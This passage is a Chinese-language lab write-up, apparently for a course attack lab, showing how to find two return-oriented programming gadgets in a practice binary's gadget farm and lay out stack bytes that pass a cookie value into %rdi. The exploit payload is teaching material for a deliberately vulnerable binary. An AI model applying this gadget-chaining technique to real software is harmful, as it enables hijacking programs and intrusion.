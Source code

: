 ```asm
mov    $0x59b997fa,%rdi
```

由 [4.3](#43-解题思路) 节的分析，我们可以将 `0x59b997fa` 先保存在栈中，然后利用 `popq` 指令弹栈传给某个寄存器，此后再利用 `movq`、`movl` 等指令传给 `%rdi` 寄存器。

###### 4.4.1.1 第 1 个 gadget

注意到 gadget farm 中函数 `getval_280` 对应的汇编语句：

```text
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
```

其中机器码 `58 90 c3` 对应汇编指令：

```asm
popq   %rax
ret
```

该指令的地址为 `0x4019cc`。

###### 4.4.1.2 第 2 个 gadget

注意到 gadget farm 中函数 `addval_273` 对应的汇编语句：

```text
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

其中机器码 `48 89 c7 c3` 对应汇编指令：

```asm
movq   %rax,%rdi
ret
```

该指令的地址为 `0x4019a2`。

###### 4.4.1.3 整合

于是可改写第 1 句指令为：

```asm
popq   %rax
ret
movq   %rax,%rdi
ret
```

在栈中需要保存的内容为：

```text
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
fa 97 b9 59 00 00 00 00             /* the value of cookie          */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
```
